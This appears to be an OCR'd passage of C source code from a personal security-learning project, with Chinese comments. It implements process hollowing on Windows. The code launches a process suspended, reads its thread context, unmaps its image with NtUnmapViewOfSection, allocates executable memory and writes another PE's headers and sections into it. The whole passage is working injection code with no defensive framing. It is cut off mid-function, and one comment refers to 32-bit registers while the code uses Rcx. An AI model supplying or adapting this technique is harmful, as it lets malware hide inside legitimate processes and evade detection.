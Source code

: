 ```c

	//2.获取进程上下文 ： 第一步：创建傀儡进程外壳，设置挂起状态，保存上下文信息
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	if (!CreateProcessA(NULL, (LPSTR)"E:\\信息安全知识学习\\ProcessThread注入\\进程注入学习代码\\傀儡进程注入\\x64\\father.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
	{
		printf("CreateProcessA 失败，错误码 %lu\n", GetLastError());
		return 1;
	}

	CONTEXT ctx;
	ctx.ContextFlags = CONTEXT_FULL;
	if (GetThreadContext(pi.hThread, &ctx) == 0)
	{
		printf("CreateProcess failed %d\n", GetLastError());
		return 1;
	}

	//3.清空目标进程 ： 第二步：取消原先的进程的内存
	HMODULE hNtdll = LoadLibraryA("ntdll.dll");
	if (hNtdll == NULL)
	{
		printf("无法加载 ntdll.dll 库\n");
		return 1;
	}
	NtUnMapViewOfSectionPtr NtUnMapViewOfSection = (NtUnMapViewOfSectionPtr)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	LPVOID dwProcessBaseAddr = 0;
	// 获取目标进程的base address， 然后将他的内存取消注册
	// context.Ecx = 基地址的地址，因此从context.Ebx + 8的地址读取4字节的内容并转化为DWORD类型，既是进程加载的基地址
	if (!ReadProcessMemory(pi.hProcess, (LPCVOID)ctx.Rcx, &dwProcessBaseAddr, sizeof(PVOID), NULL))
	{
		printf("ReadProcessMemory failed  %lu\n", GetLastError());
		return 1;
	}
	// 通过x64dbg看到确实可以
	NtUnMapViewOfSection(pi.hProcess, (LPCVOID)ctx.Rcx);

	//4.重新分配空间
	LPVOID lpAddr = VirtualAllocEx(pi.hProcess, (LPVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//用Imagebase为起始地址避免了重定位。
	if (lpAddr == NULL)
	{
		printf("VirtualAlloc failed %d\n", GetLastError());
		return 1;
	}

	//5.写入傀儡进程
	// 替换PE头
	// 这里在内存中开辟的40000的空间写入了被注入程序的所有的头，节区留着后面写
	if (!WriteProcessMemory(pi.hProcess, lpAddr, (LPCVOID)pBuf, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL))
	{
		printf("WriteProcessMemory error code : %d\n", GetLastError());
		return 1;
	}
	// 替换节
	// 将地址seek到节区头开始
	DWORD nt_size = sizeof(IMAGE_NT_HEADERS);
	long long tmp = (pBuf + pDosHeader->e_lfanew);
	LPVOID lpSectionBaseAddr = (LPVOID)(tmp + nt_size);
```